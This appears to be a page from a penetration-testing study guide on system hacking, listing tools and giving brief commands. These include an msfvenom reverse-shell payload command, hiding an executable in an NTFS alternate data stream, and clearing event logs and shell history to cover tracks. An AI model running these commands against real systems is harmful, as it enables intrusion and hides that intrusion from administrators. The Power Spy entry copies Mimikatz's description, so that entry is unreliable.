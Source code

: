 ```yaml
---
title: System Hacking
description: System Hacking
slug: guide/system
---
```



System hacking is the process of gaining unauthorized access to a target's systems and applications.

## Gaining access

Gaining access is the process of exploiting vulnerabilities in a target's systems and applications to gain unauthorized access.

<LinkCard
  title="Responder"
  description="Responder is a tool used to capture NTLMv1 and NTLMv2 hashes from Windows systems."
  href="https://github.com/lgandx/Responder"
  target="_blank"
/>

<LinkCard
  title="L0pthCrack"
  description="L0pthCrack is a password auditing and recovery tool."
  href="https://l0phtcrack.gitlab.io/"
  target="_blank"
/>

<LinkCard
  title="Armitage"
  description="Armitage is a graphical cyber attack management tool for Metasploit."
  href="https://www.fastandeasyhacking.com/"
  target="_blank"
/>

<LinkCard
  title="Ninja Jonin"
  description="A general-purpose fully customizable software to control a remote computer behind any NAT, Firewall and proxy."
  href="https://github.com/ErAz7/Ninja"
  target="_blank"
/>

<LinkCard
  title="ImmunityDebugger"
  description="Immunity Debugger is a powerful way to write exploits, analyze malware, and reverse engineer binary files."
  href="https://github.com/kbandla/ImmunityDebugger"
  target="_blank"
/>

## Metasploit

Metasploit is a penetration testing framework that allows security professionals to find and exploit vulnerabilities in systems and applications.

```bash
# Generate a reverse tcp payload for Windows
msfvenom -p windows/meterpreter/reverse_tcp --platform windows \
    -a x86 -o file.exe LHOST=YOUR_IP LPORT=YOUR_PORT
```

<LinkCard
  title="Metasploit"
  description="Metasploit is a penetration testing framework."
  href="https://www.metasploit.com/"
  target="_blank"
/>

## Exploit sites

Exploit sites are repositories of information about known vulnerabilities in software and hardware.

<LinkCard title="ExploitDB" href="https://www.exploit-db.com" target="_blank" />

<LinkCard title="VulDB" href="https://vuldb.com/" target="_blank" />

<LinkCard title="Vulners" href="https://vulners.com/" target="_blank" />

<LinkCard
  title="CIRCL CVE Search"
  href="https://cve.circl.lu/"
  target="_blank"
/>

<LinkCard
  title="CVE Details"
  href="https://www.cvedetails.com/"
  target="_blank"
/>

## Privilege escalation

Privilege escalation is the process of gaining higher privileges on a target's system or application.

<LinkCard
  title="Metasploit"
  description="Metasploit is a penetration testing framework."
  href="https://www.metasploit.com/"
  target="_blank"
/>

<LinkCard
  title="Mimikatz"
  description="Mimikatz is a tool for extracting plaintext passwords, hashes, PIN codes, and Kerberos tickets from memory."
  href="https://github.com/ParrotSec/mimikatz"
  target="_blank"
/>

## Post-exploitation

Post-exploitation is the process of maintaining access to a target's system or application after gaining unauthorized access.

<LinkCard
  title="Power Spy"
  description="Power Spy is a tool for extracting plaintext passwords, hashes, PIN codes, and Kerberos tickets from memory."
  href="https://www.power-spy.com/"
  target="_blank"
/>

<LinkCard
  title="Spytech SpyAgent"
  description="Spytech SpyAgent is a powerful computer monitoring software."
  href="https://www.spytech-web.com/spyagent/"
  target="_blank"
/>

<LinkCard
  title="Covert TCP"
  description="Covert TCP is a tool for creating covert channels over TCP."
  href="https://github.com/zaheercena/Covert-TCP-IP-Protocol"
  target="_blank"
/>

### NTFS Alternate Data Streams

NTFS streams are a feature of the NTFS file system that allows files to contain multiple streams of data.

This can be used to hide data within a file without altering its size or appearance.

```sh
# Create a file with an alternate data stream
echo "This is a hidden message" > file.txt:stream

# Insert a file as an alternate data stream
type exploit.exe > file.txt:file.exe
```

### White space stenography

White space stenography is the process of hiding data by using white space characters in a file.

```sh
snow -C -m "I am lying" -p "hello world" input.txt output.txt
```

<LinkCard
  title="snow"
  description="Text-based steganography that uses whitespace to conceal information."
  href="https://github.com/mattkwan-zz/snow"
  target="_blank"
/>

### Image steganography

Image steganography is the process of hiding data within an image file.

<LinkCard
  title="OpenStego"
  description="OpenStego is a free and open-source software for image steganography."
  href="https://github.com/syvaidya/openstego"
  target="_blank"
/>

<LinkCard
  title="Stegonline"
  description="Stegonline is a web-based tool for image steganography."
  href="https://stegonline.georgeom.net/"
  target="_blank"
/>

<LinkCard
  title="QuickStego"
  description="QuickStego is a free and easy-to-use software for image steganography."
  href="http://www.quickcrypto.com/free-steganography-software.html"
  target="_blank"
/>

## Clear logs and data

Clear logs is the process of deleting or modifying logs on a target's system or application to cover tracks.

<LinkCard
  title="DBAN"
  description="Darik's Boot and Nuke is a free data destruction program."
  href="https://dban.org/"
  target="_blank"
/>

<LinkCard
  title="CCleaner"
  description="CCleaner is a utility program used to clean potentially unwanted files and invalid Windows Registry entries from a computer."
  href="https://www.ccleaner.com/"
  target="_blank"
/>

### Windows

```sh
# Clear logs using auditpol
# https://learn.microsoft.com/it-it/windows-server/administration/windows-commands/auditpol
auditpol /clear /y

# Clear logs using wevtutil
# https://learn.microsoft.com/it-it/windows-server/administration/windows-commands/wevtutil
wevtutil cl System
wevtutil cl Application
# ...

# Encrypt deleted data using cipher
# https://learn.microsoft.com/it-it/windows-server/administration/windows-commands/cipher
cipher /w:C:
```

<LinkCard
  title="Clear Event Viewer Logs"
  description="Clear Event Viewer Logs is a tool for clearing event logs on Windows systems."
  href="https://gist.github.com/amnweb/0ddb3fdb7ec5da0f0c39f0e9aa9fdd56"
  target="_blank"
/>

### Linux

```sh
# Disable bash history
export HISTSIZE=0

# Clear bash history
history -c # all
history -w # current session

# Shred a file making it unrecoverable
shred file.txt
```
